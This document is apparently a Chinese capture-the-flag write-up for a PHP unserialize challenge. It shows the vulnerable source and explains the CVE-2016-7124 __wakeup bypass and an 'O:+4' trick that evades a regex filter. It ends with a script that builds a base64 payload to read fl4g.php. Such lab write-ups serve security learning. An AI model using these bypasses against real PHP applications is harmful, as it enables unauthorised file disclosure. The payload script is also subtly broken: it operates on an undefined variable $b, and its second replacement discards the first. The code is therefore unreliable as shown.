 ## Web_php_unserialize

php反序列化加一些奇奇怪怪的绕过

题目源码

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

我们希望能读到fl4g.php

所以要借助反序列化中的__destruct()函数，但是\_\_wakeup()会覆盖我们写进去的地址

这里涉及到一个漏洞

[CVE-2016-7124](https://bugs.php.net/bug.php?id=72663)

简单来说就是**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

那么preg_match的过滤怎么办呢

根据正则表达式的语法可知，检测的应该是类似 O:4:这样的

>  [oc]字符组 /d 数字 /i 忽略大小写

可以加个+来绕过

一开始自己写序列化对象怎么写都不对

但其实可以用php输出一个序列化对象，然后再改。。。。

或者也可以直接用脚本

```
<?php
class Demo {
    private $file = 'index.php';
    public function __construct($file) {
        $this->file = $file;
    }
    function __destruct() {
        echo @highlight_file($this->file, true);
    }
    function __wakeup() {
        if ($this->file != 'index.php') {
            //the secret is in the fl4g.php
            $this->file = 'index.php';
        }
    }
}
    $o = new Demo('fl4g.php');
    $s = serialize($o);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $s = str_replace('O:4', 'O:+4',$b);//绕过__preg_match
    $s = str_replace(':1:', ':2:',$b);//绕过__wakeup
    echo (base64_encode($s));//payload
 ?>
```



### 参考资料

正则表达式：

https://www.cnblogs.com/zery/p/3438845.html

https://blog.csdn.net/weixin_33682790/article/details/85996972